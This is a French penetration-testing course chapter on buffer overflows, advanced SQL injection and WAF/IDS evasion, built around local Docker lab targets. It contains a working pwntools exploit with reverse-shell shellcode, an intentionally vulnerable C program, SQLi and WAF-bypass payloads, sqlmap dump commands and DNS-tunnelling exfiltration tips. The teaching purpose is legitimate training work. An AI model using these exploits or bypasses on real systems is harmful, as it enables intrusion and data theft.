



# Chapitre 03 : Vulnérabilités avancées et contournement des protections

---

## Objectifs pédagogiques

- Maîtriser l'exploitation de buffer overflow avec contrôle du flux d'exécution
- Exploiter les injections SQL avancées : blind, time-based, union-based
- Comprendre et contourner les firewalls, IDS/IPS et WAF
- Appliquer les techniques d'évasion de détection (TA0005 Defense Evasion)
- Construire une kill chain d'attaque avancée documentée ATT&CK

---

## Introduction

Les défenses réseau et applicatives sont de plus en plus sophistiquées. Firewalls nouvelle génération, WAF, IDS/IPS, EDR : ces mécanismes forment un maillage de protection que les attaquants déterminés contournent au quotidien.

Ce chapitre est entièrement centré sur la tactique **TA0005 Defense Evasion**. Vous apprendrez à modifier vos attaques pour passer sous les radars : obfuscation de payload, fragmentation réseau, encodage de requêtes SQL, et exploitation de failles mémoire.

> **Sources :** [ATT&CK Defense Evasion](https://attack.mitre.org/tactics/TA0005/) — MITRE.

---

## Dépendances / Prérequis

- Docker Compose — lancer les conteneurs du jour :
  ```bash
  docker-compose up -d buffovf waf-target dvwa
  ```
- Outils Kali : `gdb`, `pwntools`, `sqlmap`, `nmap`
- Installation : `pip install pwntools`

---

## 1. Buffer overflow — T1068 Exploitation for Privilege Escalation

### Comprendre la pile d'exécution

Quand un programme s'exécute, chaque appel de fonction crée un cadre de pile (stack frame). Les variables locales sont stockées dans l'ordre inverse d'allocation.

```
Adresses hautes
+-----------------------------+
|  arguments de la fonction   |
+-----------------------------+
|  adresse de retour (EIP)    | ◄── ⎯⎯⎯ L'attaquant veut contrôler ce registre
+-----------------------------+
|  saved EBP (frame pointer)  |
+-----------------------------+
|  buffer local[64]           | ◄── ⎯⎯⎯ Zone vulnérable (strcpy sans limite)
+-----------------------------+
Adresses basses
```

**Principe de l'attaque :** si on écrit plus de 64 octets dans `buffer`, on déborde et on écrase d'abord `saved EBP`, puis l'**adresse de retour**. En plaçant l'adresse de notre shellcode à la place de l'adresse de retour, on redirige l'exécution.



**Technique ATT&CK :** T1068 Exploitation for Privilege Escalation → TA0004 / TA0005

### Le conteneur buffer overflow

```bash
# Builder et lancer le conteneur
docker-compose up -d --build buffovf

# Vérifier que le service écoute
nmap -sV -p 9001 localhost -P0
```

Le conteneur exécute un programme C vulnérable via `socat` sur le port 9001. Le code source est dans `docker/buffovf/vuln.c`.

### Programme vulnérable

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void vulnerable_function(char *input) {
    char buffer[64];          // Buffer fixe de 64 octets
    strcpy(buffer, input);    // PAS de vérification de taille !
    printf("Input received: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    return 0;
}
```

### Exploitation avec pwntools

```python
#!/usr/bin/env python3
"""
Exploitation du buffer overflow — JOUR 3
Cible : conteneur buffovf (port 9001)

Usage : python3 exploit_bof.py
"""

from pwn import *

# ─── Étape 1 : Déterminer l'offset jusqu'à EIP ───
# On envoie un pattern cyclique pour trouver le décalage exact
# L'offset est la distance entre le début du buffer et EIP

OFFSET = 76  # 64 octets buffer + 4 saved EBP + 8 alignment = 76

# ─── Étape 2 : Trouver une adresse de saut utile ───
# On cherche une instruction "jmp esp" ou "call esp" dans le binaire
# pour rediriger vers notre shellcode placé après EIP
# Commande : objdump -d vuln | grep -E "jmp.*esp|call.*esp"

JMP_ESP = 0x080491c7  # Adresse à adapter selon le binaire compilé

# ─── Étape 3 : Générer le shellcode ───
# Reverse shell vers Kali (LHOST = IP Kali, LPORT = 4444)
context.arch = 'i386'
shellcode = asm(shellcraft.i386.linux.connect('172.17.0.1', 4444))

# ─── Étape 4 : Construire le payload ───
payload = b"A" * OFFSET         # Remplissage jusqu'à EIP
payload += p32(JMP_ESP)         # Écrasement EIP → JMP ESP
payload += b"\x90" * 16         # NOP sled (marge de sécurité)
payload += shellcode            # Code à exécuter

print(f"[*] Taille payload : {len(payload)} octets")
print(f"[*] Offset EIP      : {OFFSET}")
print(f"[*] Adresse JMP ESP : {hex(JMP_ESP)}")
print(f"[*] Shellcode size  : {len(shellcode)} octets")
print(f"[*] Envoi du payload...")

# Connexion au service vulnérable
r = remote('localhost', 9001)
r.sendline(payload)
r.interactive()
```

### Débogage avec GDB (sur le conteneur)

```bash
# Entrer dans le conteneur
docker exec -it buffovf-target bash

# Lancer GDB sur le binaire
gdb -q /opt/vuln

(gdb) run $(python3 -c "print('A'*100)")
# Programme crash → regarder EIP

(gdb) info registers eip
# eip = 0x41414141 → on contrôle bien EIP
```

> **Sources :** [pwntools Documentation](https://docs.pwntools.com/). [Corelan Exploit Development](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/).

---

## 2. Injections SQL avancées — T1190 Exploit Public-Facing Application

### Types d'injections et mapping ATT&CK

```
┌──────────────────────────────────────────────────────────────────┐
│                     INJECTION SQL AVANCÉE                        │
├───────────────────────┬──────────────────────┬───────────────────┤
│ Type                  │ Quand l'utiliser     │ Technique ATT&CK  │
├───────────────────────┼──────────────────────┼───────────────────┤
│ Union-based           │ Erreurs visibles     │ T1190             │
│ Error-based           │ Messages d'erreur    │ T1190             │
│ Blind Boolean-based   │ Pas d'erreur visible │ T1190             │
│ Blind Time-based      │ Aucun retour visuel  │ T1190             │
│ Out-of-band (OOB)     │ Réseau sortant OK    │ T1041 (C2)        │
└───────────────────────┴──────────────────────┴───────────────────┘
```

### Blind SQLi — Extraction caractère par caractère

Quand l'application n'affiche ni erreurs ni données, on infère l'information par des questions vrai/faux ou des délais.

```sql
-- Blind booléenne : la page change si la condition est vraie
' AND SUBSTRING((SELECT database()), 1, 1) = 'd' --

-- Blind temporelle (Time-based) : délai si condition vraie
' OR IF(SUBSTRING((SELECT table_name FROM information_schema.tables
    WHERE table_schema=database() LIMIT 1), 1, 1) = 'u', SLEEP(3), 0) --
```

### Automatisation avec sqlmap

```bash
# Récupérer le cookie de session DVWA
# Dans Firefox → F12 → Storage → Cookies → PHPSESSID

# Détection de la vulnérabilité
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" --dbs

# Blind SQLi : forcer la technique si union-based échoue
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  --technique=B --dbs

# Dump complet de la base dvwa
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  -D dvwa -T users --dump
```

> **Sources :** [sqlmap Wiki](https://github.com/sqlmapproject/sqlmap/wiki). [PortSwigger SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

---

## 3. Contournement des protections — TA0005 Defense Evasion

### Architecture de défense type



L'attaquant doit traverser 3 couches. Chaque couche a son angle mort.

### Évasion firewall — fragmentation et tunneling

```
┌─────────────────────────────────────────────────────────────────────┐
│                 TECHNIQUES D'ÉVASION RÉSEAU                         │
├────────────────────────────┬────────────────────┬───────────────────┤
│ Technique                  │ Commande           │ ATT&CK            │
├────────────────────────────┼────────────────────┼───────────────────┤
│ Fragmentation IP           │ nmap -f            │ T1001 Data Obfusc.│
│ MTU personnalisé           │ nmap --mtu 16      │ T1001             │
│ Tunnel SSH                 │ ssh -L 8080:...    │ T1572 Tunneling   │
│ Tunnel DNS (iodine)        │ iodine -f dom.com  │ T1572             │
│ Proxy HTTP                 │ curl -x proxy:3128 │ T1090 Proxy       │
│ Découpage temporel         │ nmap -T1           │ T1595.001         │
└────────────────────────────┴────────────────────┴───────────────────┘
```

```bash
# Scan furtif : fragmentation + timing lent
nmap -f -T1 -sV <IP>

# Fragmentation extrême
nmap --mtu 8 <IP>

# Scan depuis un proxy SOCKS
proxychains nmap -sT <IP>
```

### Évasion IDS/IPS — obfuscation de signature

Les IDS fonctionnent par signatures. Si le payload ne correspond à aucune signature, il passe.

```python
#!/usr/bin/env python3
"""
Obfuscation de payload pour évasion IDS.
"""

def xor_encode(data: bytes, key: int) -> bytes:
    return bytes(b ^ key for b in data)

def insert_junk(payload: str) -> str:
    """Insère des commentaires entre les mots-clés SQL."""
    junk = ["/**/", "/*!50000*/", "%0a", "%0d"]
    result = []
    for i, char in enumerate(payload):
        result.append(char)
        if char == ' ' and i % 3 == 0:
            result.append(junk[i % len(junk)])
    return ''.join(result)

# Exemple : obfuscation d'une injection SQL
sql = "' OR 1=1 --"
obfuscated = insert_junk(sql)
print(f"Original    : {sql}")
print(f"Obfusqué    : {obfuscated}")
# Original    : ' OR 1=1 --
# Obfusqué    : '/**/OR/**/1=1/**/--
```

### Évasion WAF — contournement des filtres applicatifs

**Le conteneur WAF :** une app PHP vulnérable derrière un ModSecurity configuré pour bloquer les injections SQL basiques.

```bash
# Lancer le WAF
docker-compose up -d --build waf-target

# Tester l'application normalement
curl "http://localhost:8081/?id=1"
# → "Searching for product: 1"

# Test injection SQL basique → bloquée par ModSecurity
curl "http://localhost:8081/?id=1%20OR%201=1"
# → 403 Forbidden (WAF a détecté la signature SQLi)
```

**Bypass avec sqlmap tamper scripts :**

```bash
# Lister les tamper scripts disponibles
sqlmap --list-tampers

# Contournement avec plusieurs tampers combinés
sqlmap -u "http://localhost:8081/?id=1" \
  --tamper=space2comment,charencode,randomcase,versionedmorekeywords \
  --dbs

# Techniques de bypass manuel :
# 1' OR '1'='1        → bloqué
# 1'/**/OR/**/1'='1   → passe (space2comment)
# 1' oR 1=1 --        → passe (randomcase)
# 1' /*!OR*/ 1=1 --   → passe (versionedmorekeywords)
```

```
┌────────────────────────────────────────────────────────────────┐
│              CONTOURNEMENT WAF — STRATÉGIE                     │
├────────────────────────────────────────────────────────────────┤
│                                                                │
│   Payload brut ──► WAF détecte ──► 403 Forbidden               │
│                                                                │
│   Payload obfusqué ──► WAF ne reconnaît pas ──► 200 OK         │
│                                                                │
│   Techniques :                                                 │
│   • Commentaires inline : /**/ et /*!50000*/                   │
│   • Encodage : %27 → ' , %20 → espace                         │
│   • Casse aléatoire : SeLeCt → SELECT                         │
│   • Équivalences : AND → && , OR → ||                          │
│   • Double URL encoding : %2527 → %27 → '                      │
│                                                                │
└────────────────────────────────────────────────────────────────┘
```

> **Sources :** [Awesome WAF](https://github.com/0xInfection/Awesome-WAF). [sqlmap tamper scripts](https://github.com/sqlmapproject/sqlmap/tree/master/tamper).

---

## 4. Kill chain d'attaque avancée

### Synthèse des techniques du jour



### Tableau des techniques du chapitre

```
┌──────────────────┬─────────────────────┬────────────────────────────┐
│ Technique ATT&CK │ ID                  │ Appliquée dans              │
├──────────────────┼─────────────────────┼────────────────────────────┤
│ Network Scanning │ T1046               │ nmap -f, découverte        │
│ Exploit Pub.-Fac.│ T1190               │ SQLi, buffer overflow      │
│ Obfuscated Files │ T1027               │ XOR shellcode, encodage    │
│ Impair Defenses  │ T1562.001           │ WAF bypass, IDS évasion    │
│ Protocol Tunneling│ T1572              │ SSH tunnel, DNS tunnel      │
│ Data Obfuscation │ T1001               │ Fragmentation IP           │
│ Unix Shell       │ T1059.004           │ Reverse shell              │
│ Priv. Escalation │ T1068               │ Buffer overflow → root     │
│ Account Manipul. │ T1098               │ Persistance SSH            │
└──────────────────┴─────────────────────┴────────────────────────────┘
```

---

## Lab 3 : Attaque avancée avec évasion

**Durée estimée :** 2h

**Contexte :** 3 conteneurs Docker : dvwa (SQLi), waf-target (WAF bypass), buffovf (buffer overflow).

### Objectif

Réaliser 3 attaques distinctes en documentant la kill chain ATT&CK complète pour chacune.

### Partie A — Buffer overflow + reverse shell

```bash
# Terminal 1 : écouter pour le reverse shell
nc -lvnp 4444

# Terminal 2 : lancer l'exploit Python (adapté de la section 1)
python3 exploit_bof.py
```

**Kill chain ATT&CK :**
1. T1046 Network Scan → découverte du port 9001
2. T1068 Exploitation for PrivEsc → buffer overflow
3. T1059.004 Unix Shell → reverse shell
4. T1098 Account Manipulation → persistance

### Partie B — WAF bypass avec sqlmap

```bash
# Utiliser sqlmap contre le WAF
sqlmap -u "http://localhost:8081/?id=1" \
  --tamper=space2comment,charencode,randomcase \
  --dbs --batch
```

**Kill chain ATT&CK :**
1. T1046 Network Scan → découverte port 8081
2. T1190 Exploit Public-Facing → SQLi
3. T1562.001 Disable/Modify Tools → contournement WAF (tamper scripts)
4. T1001 Data Obfuscation → payloads obfusqués

### Partie C — Blind SQLi manuelle sur DVWA

```bash
# Monter DVWA au niveau medium
# → DVWA Security → medium

# Blind SQLi booléenne sur medium DVWA
# Medium : bloque ' OR 1=1 simple, mais pas les variantes encodées
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=medium" \
  --technique=B --dbs
```

### Vérifications

```bash
# Vérifier les conteneurs actifs
docker-compose ps

# Résultat attendu :
# buffovf-target    Up  0.0.0.0:9001->9001/tcp
# waf-target        Up  0.0.0.0:8081->80/tcp
# dvwa-target       Up  0.0.0.0:8080->80/tcp

# Test rapide buffer overflow
echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK" | nc localhost 9001
# Le service doit répondre (le programme tourne)

# Test WAF
curl -I "http://localhost:8081/?id=1' OR 1=1 --"
# Doit retourner 403 Forbidden (WAF actif)
```

### Checkpoints

- [ ] Buffer overflow : offset EIP trouvé, shell reçu sur netcat
- [ ] WAF bypass : sqlmap + tampers contourne ModSecurity
- [ ] Blind SQLi : extraction de données sans erreur visible
- [ ] 3 kill chains documentées avec ID ATT&CK

### Erreurs fréquentes

- **Buffer overflow : connexion refused** → le conteneur buffovf doit être rebuildé : `docker-compose up -d --build buffovf`
- **WAF pas de 403** → ModSecurity mal configuré, vérifier `docker-compose logs waf-target`
- **sqlmap cookie invalide** → le cookie expire, rafraîchir la page DVWA et copier le nouveau PHPSESSID
- **Reverse shell pas de connexion** → vérifier que l'IP Kali est bien accessible depuis le conteneur : `docker exec buffovf-target ping <KALI_IP>`

---

## Exercices

### Exercice 1 : Trouver l'offset EIP manuellement

**Énoncé :** Avec GDB, déterminez l'offset exact jusqu'à EIP sur le binaire vulnérable du conteneur.

<details>
<summary><strong>Solution</strong></summary>

```bash
docker exec -it buffovf-target bash
cd /opt

# Avec pwntools dans le conteneur :
python3 -c "from pwn import *; print(cyclic(100).decode())" > pattern.txt

gdb -q ./vuln
(gdb) run $(cat pattern.txt)
# Programme crash, noter la valeur de EIP

# Sur Kali :
python3 -c "from pwn import *; print(cyclic_find('...valeur EIP...'))"
# → offset = 76
```
</details>

### Exercice 2 : Créer un tamper script sqlmap personnalisé

**Énoncé :** Écrivez un tamper script sqlmap qui remplace les espaces par une combinaison aléatoire de commentaires.

<details>
<summary><strong>Solution</strong></summary>

```python
#!/usr/bin/env python3
# tamper/randomspace.py — à placer dans le dossier tamper de sqlmap

import random
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    spaces = ["/**/", "/*!50000*/", "%0a", "%0d", "%09"]
    retVal = payload
    for space_char in [' ', '+']:
        while space_char in retVal:
            retVal = retVal.replace(space_char, random.choice(spaces), 1)
    return retVal
```
</details>

### Exercice 3 : Choisir la bonne technique d'évasion

**Énoncé :** Pour chaque scénario, indiquez la technique ATT&CK et l'outil/commande adapté.

Scénarios :
1. Scan réseau sans déclencher l'IDS
2. Injection SQL bloquée par un WAF
3. Exfiltration de données malgré un firewall qui bloque le port 443 sortant

<details>
<summary><strong>Solution</strong></summary>

1. Scan furtif → T1001 Data Obfuscation + T1595.001 Active Scanning → `nmap -f -T1`
2. WAF bypass → T1562.001 Disable or Modify Tools → `sqlmap --tamper=space2comment,randomcase`
3. Exfiltration → T1572 Protocol Tunneling → `iodine` (DNS tunnel) ou T1048.003 Exfiltration Over Unencrypted Non-C2 Protocol
</details>

---

## Points clés à retenir

- TA0005 Defense Evasion est la tactique la plus technique : elle regroupe 50+ techniques
- Le buffer overflow exploite l'absence de vérification de taille pour contrôler EIP
- Les injections SQL aveugles permettent d'extraire des données sans retour visible
- Chaque couche de défense (firewall, IDS, WAF) a ses angles morts
- L'obfuscation est la clé de l'évasion : XOR, encodage, commentaires, fragmentation
- Toujours documenter la kill chain ATT&CK complète de chaque vecteur d'attaque

## Pour aller plus loin

- [MITRE ATT&CK — Defense Evasion (TA0005)](https://attack.mitre.org/tactics/TA0005/)
- [PayloadsAllTheThings — SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [Corelan Exploit Development Tutorials](https://www.corelan.be/index.php/articles/)

---

*Chapitre précédent : [Jour 2 — Tests de pénétration](./JOUR-02.md)*
*Chapitre suivant : [Jour 4 — Contre-mesures et sécurisation](./JOUR-04.md)*
